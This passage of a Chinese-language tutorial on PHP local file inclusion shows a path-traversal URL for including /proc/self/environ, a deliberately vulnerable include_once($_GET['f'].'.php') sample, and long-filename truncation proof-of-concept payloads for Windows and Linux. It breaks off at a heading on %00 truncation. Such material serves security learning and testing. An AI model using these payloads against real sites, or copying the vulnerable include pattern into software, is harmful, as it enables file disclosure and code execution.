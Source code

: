 ### 3.6. /proc

#### 3.6.1. 包含/proc/self/environ文件

包含/proc/self/environ是一种更通用的方法，因为它根本不需要猜测包包含文件的路径，同时用户也能控制它的内容

```
http://192.168.159.128/index.php?file=../../../../../../../proc/self/environ 
```

4\. 截断本地包含
----------

样例：

```
include($a.".php"); 
```

*   影响函数

```
include
require
file_get_contents
file_exists 
```

### 4.1. 长文件名截断

*   php版本为5.3.4以下（具体哪个版本不是很清楚)
*   GPC是否开启没关系

windows和linux的文件名长度是有限制的，超过其长度的会被忽略，通常情况下windows的截断长度为260，linux的长度为4096，这一不用在意具体长度，只要把需要截断的字符串挤到后面就可以了

*   样例：

```
<?php  include_once($_GET['f'].".php"); ?>  

# POC
http://127.0.0.1/test/123.php?f=test.txt/././....../ 
```

实例：

\[长文件名截断: 济南大学主站本地文件包含导致代码执行 --wooyun\]

*   windows

windows在文件名后加`.\\`, `.`, `/`, `\`, `./`, `.\`都是可以的

*   linux

`/.` 或 `/`

### 4.2. %00 截断包含
